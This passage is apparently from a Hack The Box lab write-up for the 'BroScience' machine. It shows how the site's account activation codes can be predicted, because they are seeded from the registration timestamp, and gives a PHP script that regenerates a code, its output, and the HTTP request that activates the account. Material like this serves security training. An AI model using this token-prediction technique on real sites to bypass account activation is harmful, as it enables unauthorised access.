 ```php
            }
        } else {
            $alert = "Invalid activation code.";
        }
    } else {
        $alert = "Invalid activation code.";
    }
} else {
    $alert = "Missing activation code.";
}
```

# Exploitation

## User activation

We'll use the code snippet discovered in **includes/utils.php** to generate an activation code for our previously created user.  
The date has been taken from the burp request that was captured while registering on the page.  

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(strtotime("Mon, 09 Jan 2023 21:28:34 GMT"));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code;
}

generate_activation_code();
?>
```

```bash
┌──(mrk㉿htb)-[~/Dokumente/htb/lab/broscience]
└─$ php generate.php
AtbiWw4c7YXN82lc9enxtWRg531vVkZe
```

Now it's time to activate the account  

```http
GET /activate.php?code=AtbiWw4c7YXN82lc9enxtWRg531vVkZe HTTP/1.1
Host: broscience.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
